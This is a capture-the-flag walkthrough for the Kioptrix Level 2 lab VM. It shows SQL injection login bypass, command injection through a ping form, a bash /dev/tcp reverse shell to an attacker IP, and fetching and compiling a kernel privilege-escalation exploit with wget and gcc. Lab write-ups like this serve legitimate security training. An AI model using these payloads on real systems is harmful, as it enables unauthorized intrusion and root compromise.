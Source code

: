 ```yaml
---
title: Kioptrix Level 2 - Vulnhub VM Challenge
author: 47Suriya
author_url: https://twitter.com/_47Suriya_
categories: 
 - Vulnhub
tags:
 - Vulnhub
 - Write up
 - Kioptrix Level 2
 - Kioptrix 
 - VM Challenge
---
```


---
# Kioptrix Level 2 - Vulnhub VM Challenge

## Description
This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
<br>


## Finding the IP of the Target Machine

The IP of the target machine is found by using [Netdiscover tool](https://github.com/alexxy/netdiscover).

Here I got the IP of the vulnerable machine as **192.168.0.170**
## Initial Scan 

First, [Nmap scanner](https://github.com/nmap/nmap) is used to find all the open ports and services running. 
After the scan we can see that there is MySQL running on port 3306. From that we can
assume that this site is connected to a database.

## SQL and Command Injection

When we navigate to the site hosted by the VM, we get a login page which consists of user and
password input fields. Here we can try to login using SQL Injection.
When we enter 1' or '1'='1 on both username and password it will alter the SQL query in a way
that it returns true for both the input fields. Then we can move on to a console which pings the
input entered. Here we can try using command injection and it works i.e we can terminate the
ping command using ‘ ; ‘ and continue to enter commands and execute. By taking advantage of
this command injection vulnerability we can invoke a reverse shell. <br> To create it, first we start a
netcat listener on attackers machine. 
```bash
nc -nlvp 555
```
Enter the payload below in the input field to create a reverse shell
```bash
bash -i >& /dev/tcp/192.168.1.120/555 0>&1 
```

After connecting to the victims machine, we check the Linux version that the machine is running
on using the command below. 
```bash
cat /proc/version
```
Version:
```bash
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8))
```
## Exploit

Next we search about the linux version and we can find that there is a **Privilege
Escalation** [Exploit](https://www.exploit-db.com/exploits/9542).<br>
After downloading this exploit we can find that it is a c file and from the reverse shell we can find
out there is a gcc compiler present. So what we have to do is we have to move that exploit file to
the victims machine. Then we have to move the exploit file to the web root directory
```bash 
var/www/html 
``` 
Then start an apache server
```bash
service apache2 start 
```
Then we have to move to **/tmp** directory in the
reverse shell and get the contents by connecting to the attackers machine using **wget**
command to get the exploit file. Then we have to compile the exploit file 
```bash
gcc exploit.c -o exploit
```
Then finally we get root access by running the executable file <3